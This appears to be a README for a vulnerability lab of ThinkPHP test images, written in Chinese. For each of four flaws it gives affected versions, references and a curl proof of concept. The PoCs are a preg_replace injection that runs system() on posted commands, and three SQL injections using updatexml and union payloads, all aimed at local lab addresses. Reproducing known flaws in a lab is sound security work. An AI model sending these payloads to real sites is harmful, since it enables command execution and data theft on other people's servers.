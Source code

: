 ## Thinkphp preg_replace 代码执行漏洞

测试镜像

* src/thinkphp/2.0/

说明

* 当 `URL_PATHINFO_MODEL` 设置为 `1` 时存在代码执行漏洞

Poc

```
curl -g 'http://127.0.0.1/index.php/module/action/param1/$%7B@system($_POST[0])%7D' -d 0=ls
```



## Thinkphp 5.0.16 insert 注入漏洞

测试镜像

* src/thinkphp/5.0.16/

影响版本

- Thinkphp < 5.0.16

参考文档

* [ThinkPHP框架 5.0.x sql注入漏洞分析](https://paper.seebug.org/564/)

Poc

```
curl '127.0.0.1/public/index.php/index/index/testsql?username[0]=inc&username[1]=updatexml(1,concat(0x7,user(),0x7e),1)&username[2]=1
```



## Thinkphp3.2.3 update注入漏洞

测试镜像

- src/thinkphp/3.2.3/

影响版本

- Thinkphp < 3.2.3

参考链接

- [Thinkphp3.2.3最新版update注入漏洞](https://paper.seebug.org/573/)

Poc

```shell
curl 'http://172.17.0.2/index.php/home/user?user\[0\]=bind&user\[1\]=money_0%20or%201%20and(updatexml(1,concat(0x7e,(select%20user()),0x7e),1))&money=qwe'
```

返回内容包含sql报错：XPATH syntax error: '~root@localhost~'



## Thinkphp exp表达式注入漏洞

测试镜像

- src/thinkphp/3.2.3/

影响版本

- Thinkphp 3.x 5.x

参考文档

- [ThinkPHP框架架构上存在SQL注入](https://www.secpulse.com/archives/29826.html)

Poc

```shell
curl 'http://172.17.0.2/index.php/home/user/exp_inject?id\[\]=exp&id\[\]=%3d888%20union%20select%201,database(),3%23'
```

